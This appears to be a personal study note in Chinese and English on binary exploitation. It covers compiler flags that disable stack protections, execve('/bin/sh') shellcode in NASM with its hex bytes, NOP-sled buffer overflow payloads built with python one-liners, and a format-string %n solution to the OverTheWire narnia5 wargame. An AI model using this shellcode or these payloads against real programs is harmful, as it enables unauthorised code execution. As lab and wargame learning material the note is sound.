 ### Byte ordering

![image](https://slideplayer.com/slide/9303999/28/images/9/Byte+ordering+function+calls+%282%2F6%29.jpg)

![image](https://i.stack.imgur.com/fManS.png)

## 16进制hex里面每个字符(0->f)都代表4个bit
32位有8个hex decimal (4*8=32bits)
64位有16个hex decimal (4*16=64bits)


# shellcode 

### compile 

```
gcc -m32 -g -mpreferred-stack-boundary=2 -fno-stack-protector -Wl,-z,norelro -z execstack example.c -o example

-no-pie: disable PIE (position independent executable)
-z execstack: to disable NX (making stack executable)
-Wl,-z,norelro: disable RELRO (readonly relocations)
-fno-stack-protector: remove stack protection (stack overflow security checks)
And for convenience:

-g: add debugging

-mpreferred-stack-bounary=2: align stack on 4-byte boundary

---


nasm -f elf32 example.asm -o example.o

ld -m elf_i386 example.o

as --32 example.s -o example.o
```
- execstack: allow ....

### call from c
```
int (*foo)() = (int(*)())code;
  foo_value = foo();
  
OR
just
(*(void(*)()) shellcode)();

```


```
// nasm 
global _start

section .text
_start:
    jmp short call_shellcode

shellcode:
    pop ebx                    ; address of '/bin/sh'
    xor eax,eax
    mov al, 11                 ; 0xb
    int 0x80

call_shellcode:
    call shellcode
    message db "/bin/sh"       ; no need to add \0 manually



nasm -f elf32 example.asm -o example.o

ld -m elf_i386 example.o

./a.out

```


```
example2.asm (nasm) 25 bytes


global _start

section .text

_start:
	jmp getString

shell:
	xor eax, eax
	pop ebx
	xor ecx, ecx
	xor edx, edx
	mov al, 0xb
	int 0x80

getString:
	call shell
	db "/bin/sh"

\xeb\x0b\x31\xc0\x5b\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

## x86 Instructions 

The instruction ['test'](https://stackoverflow.com/a/13064985)


## NOP(No operation performed)

```
\x90
a sled，雪橇，EIP跟着NOP往前（高地址）滑，可以当作shellcode前面的填充物。

```

## GDB 

```
x/wx 。。。 记得加个w代表word，32位，不然的话会打印nibbles
```

## print shellcode bytes 

```
Example
$(python -c 'print "\x90"*107 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "B"*4')

$(echo -n -e "\x31\xc0\x50\x68\x2f") 
$(echo -n -e "\x31\xc0\x50\x68\x2f") > inputFile  把inputFile里现有的内容删掉然后写入
$(echo -n -e "\x31\xc0\x50\x68\x2f") >> inputFile 在已有内容的后面添加
```


### 容易踩的陷阱
[link](https://stackoverflow.com/questions/38416045/im-trying-to-exploit-a-bufferoverflow-am-i-doing-something-wrong)
```
./vulne $(python -c 'print "\x90"*(256+4-25-40) + "\xeb\x0b\x31\xc0\x5b\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"+"\x90"*40 + "\x10\xd3\xff\xff"')
```
> 重点重点重点！！！！！ 注意看shellcode是在NOP sled的中间，而不是在最后


## Stack Alignment 

- GCC aligned default 16 bytes 
- 一旦local var >= 17，gcc就会分配32bytes
- 

## Vulnerability lists 

- [Format string vulnerability](https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)
- 

### Format string vulnerability 
针对printf家族的函数

```
如果str来源不安全,
printf(str); 就能被攻击。
```
所以要满足以下条件
1. printf(str); 后续va_arg 参数不对
2. 攻击者能够操控str
3. 在str里放入%x,%s,%n等 specifiers

在printf那一行下一个断点，这一刻的stack：

![illlustration](./format_string_stack.png)

#### overthewire-narnia5

```
/narnia/narnia5 $(python -c 'print "\xd0\xd6\xff\xff"+"A"*496+"%n"')
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [????AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA] (63)
i = 1 (0xffffd4d0)
```
程序有提示i的地址，有时候不知为啥会变一点

solution:
```
/narnia/narnia5 $(python -c 'print "\xd0\xd6\xff\xff"+"A"*496+"%n"')
```
前四个byte \xd0\xd6\xff\xff 是main里整数变量i little endian版的地址，目标是把i的值从1改到500，由于已经有四个byte了，加496就是500，所以加一堆‘A'来凑数，最后%n是specifier，它的功能是把format string里%n之前的字符串长度写到一个int *地址里，正常使用是：
```
int x = 0;
printf("123%n", &x);
```
x就变成了3（“123”的长度）
利用这个specifier来写入进程里任意内存地址